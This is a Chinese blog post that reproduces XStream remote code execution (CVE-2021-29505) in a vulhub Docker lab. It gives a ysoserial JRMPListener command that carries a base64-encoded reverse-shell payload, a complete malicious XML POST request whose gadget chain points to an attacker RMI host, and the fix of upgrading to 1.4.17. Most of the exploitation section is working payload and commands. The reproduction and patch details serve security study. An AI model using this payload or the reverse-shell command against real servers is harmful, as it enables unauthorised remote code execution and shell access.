





# 

[↓↓↓](https://www.cnblogs.com/thelostworld/p/14810682.html)  
  
XStream 远程代码执行（CVE-2021-29505）  
  
[↑↑↑](https://www.cnblogs.com/thelostworld/p/14810682.html)

  

XStream 远程代码执行（CVE-2021-29505）

一、简介描述

XStream 是一种 OXMapping 技术，是用来处理 XML 文件序列化的框架，在将 javaBean 序列化，或将 XML 文件反序列化的时候，不需要其它辅助类和映射文件，使得 XML 序列化不再繁琐。攻击者可以操纵已处理的输入流并替换或注入对象，从而执行从远程服务器加载的任意代码。

二、影响版本：

XStream <= 1.4.16

三、环境搭建：

https://raw.githubusercontent.com/vulhub/vulhub/master/xstream/CVE-2021-29505/docker-compose.yml

文件：docker-compose.yml

version: '2' services: web: image: vulhub/xstream:1.4.16 ports: - "8080:8080"

docker-compose up -d

镜像已经启动：

访问地址：http://192.168.0.106:8080/

四、漏洞复现

启动服务：

反弹目标需要 base64 加密：

java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1098 CommonsCollections6 "bash -c {echo,L2Jpbi9iYxxxxxxxxPiYx}|{base64,-d}|{bash,-i}"

执行过程截图：

执行 poc：

获取反弹 shell：

详细数据包：

POST / HTTP/1.1 Host: 192.168.0.106:8080 User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:88.0) Gecko/20100101 Firefox/88.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,\*/\*;q=0.8 Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2 Connection: keep-alive Upgrade-Insecure-Requests: 1 Content-Type: application/xml Content-Length: 3115 <java.util.PriorityQueue serialization='custom'> <unserializable-parents/> <java.util.PriorityQueue> <default> <size>2</size> </default> <int>3</int> <javax.naming.ldap.Rdn\_-RdnEntry> <type>12345</type> <value class='com.sun.org.apache.xpath.internal.objects.XString'> <m\_\_obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m\_\_obj> </value> </javax.naming.ldap.Rdn\_-RdnEntry> <javax.naming.ldap.Rdn\_-RdnEntry> <type>12345</type> <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'> <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'> <parsedMessage>true</parsedMessage> <soapVersion>SOAP\_11</soapVersion> <bodyParts/> <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1\_1.Message1\_1Impl'> <attachmentsInitialized>false</attachmentsInitialized> <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'> <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'> <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'> <names> <string>aa</string> <string>aa</string> </names> <ctx> <environment/> <registry class='sun.rmi.registry.RegistryImpl\_Stub' serialization='custom'> <java.rmi.server.RemoteObject> <string>UnicastRef</string> <string>192.168.0.102</string> <int>1098</int> <long>0</long> <int>0</int> <long>0</long> <short>0</short> <boolean>false</boolean> </java.rmi.server.RemoteObject> </registry> <host>192.168.0.102</host> <port>1098</port> </ctx> </candidates> </aliases> </nullIter> </sm> </message> </value> </javax.naming.ldap.Rdn\_-RdnEntry> </java.util.PriorityQueue> </java.util.PriorityQueue>

五、漏洞修复：

将 xstream 升级到 1.4.17 或以上版本。（在 maven 的/pom.xml 中替换高版本 xstream）

<dependency> <groupId>com.thoughtworks.xstream</groupId> <artifactId>xstream</artifactId> <version>1.4.17</version> </dependency>

参考：

https://mp.weixin.qq.com/s/dh7Ewg7Pp-pg3mkLuUv9Rg

https://blog.csdn.net/weixin\_45728976/article/details/116942969

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负！

如果本文内容侵权或者对贵公司业务或者其他有影响，请联系作者删除。

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq\_37602797/category\_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

FREEBUF 主页：https://www.freebuf.com/author/thelostworld?type=article

语雀博客主页：https://www.yuque.com/thelostworld

欢迎添加本公众号作者微信交流，添加时备注一下“公众号”

转载漏洞复现、代码审计、网络安全相关内容
